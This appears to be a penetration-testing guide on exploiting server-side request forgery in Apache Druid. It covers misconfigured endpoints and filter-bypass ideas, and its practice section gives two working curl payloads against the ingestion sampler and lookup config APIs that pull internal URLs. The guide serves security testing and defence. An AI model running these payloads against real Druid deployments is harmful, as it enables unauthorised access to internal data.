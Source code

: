 ```yaml
---
title: Exploiting SSRF in Apache Druid
description: Learn about exploiting SSRF vulnerabilities in Apache Druid's HTTP services
  for unauthorized access.
keywords:
- Apache Druid
- SSRF vulnerability
- HTTP endpoints
- web console
- unauthorized access
- Druid ingestion
- lookup attacks
- real-time analytics
- web security
- cybersecurity threats
---
```


# Apache Druid

## Context

The objective of this guide is to demonstrate the operational exploitation of Server-Side Request Forgery (SSRF) vulnerabilities found within Apache Druid. Apache Druid, a real-time analytics database, often exposes HTTP-based service interactions, which can be exploited when misconfigurations occur. This content assumes knowledge of core HTTP protocol characteristics, web server architecture, and general SSRF exploitation techniques.

## Theory

### Apache Druid Architecture and Attack Surface

Apache Druid is a distributed data store designed for high-performance real-time analytics. It operates with a RESTful API and a web console, which are significant interactive features of Druid. Each Druid node exposes a variety of HTTP endpoints, enabling functionalities such as data ingestion, querying, and cluster management.

When Druid deployments are misconfigured, they may inadvertently expose internal HTTP endpoints to unauthenticated users, providing a potential attack surface for adversaries targeting SSRF.

### Druid Console and Unauthorized Endpoints

The Druid Console is an essential web interface used for cluster administration, facilitating tasks like data ingestion and query execution. Attackers can exploit this console or leverage the REST API to initiate SSRF by connecting to unauthorized ingestion or lookup endpoints.

Druid often assumes that requests made to these endpoints are initiated by trusted sources. This assumption sets the stage for an SSRF attack when an attacker successfully imitates a trusted source.

### Security Misconfigurations in Druid

Default installations of Apache Druid may lack essential security controls such as authentication and proper network segmentation, thereby exposing sensitive endpoints. Furthermore, Druid's ingestion and lookup functionalities may inadvertently retrieve remote resources using URLs provided by users, especially in the absence of stringent URL validation mechanisms.

### Exploiting Druid Endpoints for SSRF

By crafting HTTP requests to Druid's ingestion or lookup endpoints with URLs controlled by the attacker, one can exploit SSRF. An effective strategy for bypassing simple URL filtering mechanisms involves the encoding of URLs or employing alternative schemes permitted by the target setup.

## Practice

### SSRF via Druid Ingestion Endpoint

The following series of steps outlines how to conduct an SSRF attack using the Druid ingestion endpoint.

- **Execute the following command:**

    ```bash
    curl -X POST 'http://<druid-host>:8888/druid/indexer/v1/sampler' -H 'Content-Type: application/json' -d '{"type":"index","spec":{"ioConfig":{"type":"index","inputSource":{"type":"http","uris":["http://localhost:8000/secret"]},"inputFormat":{"type":"json"}}}}'
    ```

    This crafted ingestion specification references an internal HTTP resource at "http://localhost:8000/secret".

- **Observe the response:**

    A successful SSRF will result in a response that includes the content retrieved from the internal resource, confirming that it has accessed a restricted URL.

### SSRF via Druid Lookup Endpoint

Another vector involves the Druid lookup endpoint, as detailed below:

- **Execute the following command:**

    ```bash
    curl -X POST 'http://<druid-host>:8888/druid/coordinator/v1/lookups/config' -H 'Content-Type: application/json' -d '{"lookupExtractorFactoryMap":{"malicious":{"type":"cachedNamespace","extractionNamespace":{"type":"uri","uri":"http://localhost:8000/secret","namespaceParseSpec":{"format":"flat"}}}}}'
    ```

    Here, a lookup is registered using an internal HTTP resource URI, thereby attempting to extract internal data.

- **Verify the output:**

    The response should display any internal data fetched or indicate that the lookup registration has triggered an outbound request, thus confirming SSRF exploitation.

## Tools

- **curl**
- **Burp Suite** 

These tools facilitate HTTP request crafting and manipulation, which are crucial for exploiting SSRF vulnerabilities in Apache Druid.